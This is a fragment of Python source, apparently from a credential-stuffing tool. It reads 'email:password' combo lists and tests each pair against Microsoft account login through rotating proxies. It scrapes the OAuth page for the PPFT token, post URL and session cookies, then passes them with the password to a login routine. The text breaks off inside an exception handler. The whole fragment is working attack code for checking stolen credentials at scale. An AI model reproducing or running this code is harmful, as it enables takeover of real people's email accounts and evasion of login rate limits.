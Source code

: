 async def check_one_file(file_content: str, service_email: str, user_id: int) -> None:
    session = get_user_session(user_id)
    async with aiohttp.ClientSession() as http_session:
        tasks = []
        for line in file_content.splitlines():
            if session["should_stop"]:
                break
            if ":" in line:
                parts = line.strip().split(":", 1)
                if len(parts) == 2:
                    email, password = parts
                    tasks.append(one_checker_logic(user_id, email, password, service_email, http_session))
        await asyncio.gather(*tasks)

# -----------------------------------------------------------------------------------
#                     REPLACING THE 'all' CLASS LOGIC
# -----------------------------------------------------------------------------------
async def all_checker_logic(user_id: int, Email: str, Password: str, http_session: aiohttp.ClientSession):
    session = get_user_session(user_id)
    proxy = get_next_proxy()
    if not proxy or not await test_proxy(proxy):
        logger.warning(f"No valid proxy for {Email}, skipping")
        return
    try:
        async with http_session.get(
            "https://login.microsoftonline.com/consumers/oauth2/v2.0/authorize"
            "?client_info=1&haschrome=1"
            f"&login_hint={Email}"
            "&mkt=en"
            "&response_type=code"
            "&client_id=e9b154d0-7658-433b-bb25-6b8e0a8a7c59"
            "&scope=profile%20openid%20offline_access%20https%3A%2F%2Foutlook.office.com%2FM365.Access"
            "&redirect_uri=msauth%3A%2F%2Fcom.microsoft.outlooklite%2Ffcg80qvoM1YMKJZibjBwQcDfOno%253D",
            headers={"User-Agent": "Mozilla/5.0"},
            proxy=f"http://{proxy}",
            timeout=10
        ) as r:
            if r.status != 200:
                logger.info(f"Could not get OAuth params for {Email}")
                return
            cok = r.cookies
            text = await r.text()
            if "urlPost:'" not in text:
                logger.info(f"Failed parsing for {Email}")
                return
            url_post = text.split("urlPost:'")[1].split("'")[0]
            PPFT = text.split('name="PPFT" id="i0327" value="')[1].split("',")[0]
            AD = str(r.url).split("haschrome=1")[0]
            MSPRequ = cok.get("MSPRequ", "")
            uaid = cok.get("uaid", "")
            RefreshTokenSso = cok.get("RefreshTokenSso", "")
            MSPOK = cok.get("MSPOK", "")
            OParams = cok.get("OParams", "")
            await do_login_protocol_all(user_id, Email, Password, url_post, PPFT, AD, MSPRequ, uaid, RefreshTokenSso, MSPOK, OParams, http_session)
    except Exception as e: